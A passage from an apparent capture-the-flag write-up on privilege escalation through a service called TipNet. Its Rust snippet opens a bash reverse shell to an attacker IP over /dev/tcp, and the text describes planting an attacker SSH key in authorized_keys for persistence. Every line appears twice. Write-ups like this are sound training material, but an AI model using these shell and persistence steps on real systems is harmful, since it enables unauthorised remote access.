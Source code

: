 ```



# Privesc
# Privesc






## Exploiting TipNet for revshell as `atlas`
## Exploiting TipNet for revshell as `atlas`




Using the payload shown below, we were able to receive a reverse shell as the `atlas` user.
Using the payload shown below, we were able to receive a reverse shell as the `atlas` user.


```rust
```rust
...
...
    let command = Command::new("bash")
    let command = Command::new("bash")
        .arg("-c")
        .arg("-c")
        .arg("bash -i >& /dev/tcp/10.10.14.207/9002 0>&1")
        .arg("bash -i >& /dev/tcp/10.10.14.207/9002 0>&1")
        .output()
        .output()
        .expect("bash command failed");
        .expect("bash command failed");


    if command.status.success() {
    if command.status.success() {
        println!("Command success");
        println!("Command success");
    } else {
    } else {
        println!("Command failed");
        println!("Command failed");
...
...
```
```




![[Pasted image 20230703153805.png]]
![[Pasted image 20230703153805.png]]




I enabled persistence by appending my attacker's SSH public key to `/home/atlas/.ssh/authorized_keys`, enabling persistent SSH access to the target as the user `atlas`.
I enabled persistence by appending my attacker's SSH public key to `/home/atlas/.ssh/authorized_keys`, enabling persistent SSH access to the target as the user `atlas`.

```